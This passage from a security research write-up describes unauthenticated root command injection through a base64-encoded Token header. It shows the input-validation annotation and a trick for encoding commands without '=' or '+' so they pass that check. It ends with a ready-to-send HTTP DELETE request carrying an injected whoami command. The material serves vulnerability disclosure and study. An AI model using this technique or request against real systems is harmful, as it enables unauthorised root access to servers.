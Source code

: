 > Snippet 8: *AuthenticationManager.releaseToken()*

Which again invokes our friend *PlatformCommandExecutor.execute()*, with the *Token* header we passed in the HTTP POST request, resulting in another unauthenticated remote code execution as root!

However, there is a (big) catch. Our command has to be passed in the *Token* header base 64 encoded, but the application will perform some validation on it. As seen in *Snippet 7*, the header is converted to a *ValidVarChar*. This type i shown below:

```java
@Pattern(regexp="^[a-zA-Z0-9\\_\\-\\.\\@\\/]*$", message="{INVALID_VARCHAR}")
@NotNull(message="{INVALID_VARCHAR}")
@Size(min=1, max=255, message="{INVALID_VARCHAR}")
@Documented
@Constraint(validatedBy={})
@Target(value={ElementType.PARAMETER, ElementType.FIELD})
@Retention(value=RetentionPolicy.RUNTIME)
public @interface ValidVarChar {
	public String message() default "INVALID_VARCHAR";

	public Class<?>[] groups() default {};

	public Class<? extends Payload>[] payload() default {};
}
```

> Snippet 9: *ValidVarChar*

Weirdly, this has a major bug: even though '=' and '+' are valid base 64 encoding characters, they are not accepted by the regular expression validating it!

This means that the command we have to inject has to be carefully base 64 encoded to not have such characters.

For example if we want to inject:

```
`whoami>/tmp/who`
```

This will be encoded to *YHdob2FtaT4vdG1wL3dob2A=*, which contains a '=' character, and therefore will be rejected by the application before it reaches the injection point. But if we add a space after 'who':

```
`whoami>/tmp/who `
```

... it will be encoded to *YHdob2FtaT4vdG1wL3dobyBg*, which executes the same command but does not have any "illegal" characters.

To perform the command injection we put the base 64 string in the *Token* header and send the HTTP request:

```
DELETE /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://mfobr.nat:21412/OBRApp/
Token: YHdob2FtaT4vdG1wL3dobyBg
Connection: close
```
